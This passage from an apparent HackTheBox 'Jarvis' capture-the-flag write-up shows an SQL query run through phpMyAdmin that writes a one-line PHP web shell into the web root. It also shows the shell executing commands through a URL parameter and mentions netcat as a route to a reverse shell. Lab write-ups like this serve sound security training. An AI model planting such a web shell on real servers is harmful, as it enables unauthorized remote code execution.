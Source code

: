 From here, we can manually run SQL queries in the SQL tab at the top. While there are known vulnerabilities for version 4.8.0 of PHPMyAdmin, there is an easier way to get a shell.

From the SQL tab, we can run the below command. This will output PHP code into a new PHP file on the machine, in the `/var/www/html` directory, making it available to run via the web. The `cmd` parameter we included will allow us to run system commands, and achieve RCE.


```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

![](/assets/htb-jarvis/phpmyadmin_create_query.png)

![](/assets/htb-jarvis/phpmyadmin_query_created.png)

### Reverse Shell

Now that the file is created, ass we have to do is navigate a browser to `http://10.10.10.143/shell.php?cmd=whoami`. The `cmd` parameter can be changed to whatever system command we want. As shown below, we now have RCE on the server.

![](/assets/htb-jarvis/webshell_whoami.png)

We can now enumerate the box and find a way to get a reverse shell. We can see with the `which nc` command that netcat is present. So we'll need to give it a command to run a netcat reverse shell.

